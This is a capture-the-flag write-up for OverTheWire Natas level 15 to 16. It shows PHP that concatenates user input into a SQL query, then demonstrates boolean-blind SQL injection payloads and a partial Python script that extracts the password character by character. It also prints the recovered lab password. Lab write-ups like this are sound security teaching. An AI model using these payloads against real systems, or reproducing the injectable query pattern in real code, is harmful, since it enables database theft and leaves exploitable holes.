# Natas — Level 15 → 16

**Category:** OverTheWire / Natas  
**Difficulty:** Medium  
**Date:** 2026-08-23

## Goal

No password field this time — just a username, and a yes/no answer:



## Solution

The source showed the query again used raw concatenation, but this time the response only ever says whether a user exists or not — no data is ever echoed back directly:

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    ...
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists. ";
    } else {
        echo "This user doesn't exist. ";
    }



That's a classic boolean-based blind injection: no direct data leak, but the true/false response itself is the oracle. Confirmed the baseline first:

    Username: natas16

    This user exists.




Then broke out of the quotes with an always-true condition:

    Username: natas16" AND 1=1 #

    This user exists.



And an always-false one, to confirm the injection point actually controls the result rather than `natas16` alone always returning true:

    Username: natas16" AND 1=10 #

    This user doesn't exist.




With the true/false oracle confirmed, scripted a request to make sure automation worked the same way manual testing did:

    payload = 'natas16" AND 1=1 #'
    r = requests.post(url, auth=auth, data={"username": payload})




From there, built a full blind extraction script: for each position in the password, try every character, and ask MySQL whether the real password starts with the guess-so-far plus that character — `LIKE BINARY` keeps the comparison case-sensitive:

    payload = f'natas16" AND password LIKE BINARY "{candidate}%" #'

    if "This user exists." in r.text:
        password = candidate



Ran it and watched the password build up one confirmed character at a time until all 32 characters were recovered:

    Password: Xm6XEeRN3zsGjRDqBPmuqAVV65k7e3Gb



## Result

    Password for natas16: Xm6XEeRN3zsGjRDqBPmuqAVV65k7e3Gb

## Key Takeaway

Removing the direct data leak doesn't remove the injection — a query that only ever says "yes" or "no" is still a full oracle. Any condition can be smuggled into that yes/no answer, including `password LIKE BINARY "guess%"`, which turns a boolean-blind endpoint into a character-by-character way to exfiltrate data that was never meant to be returned at all.
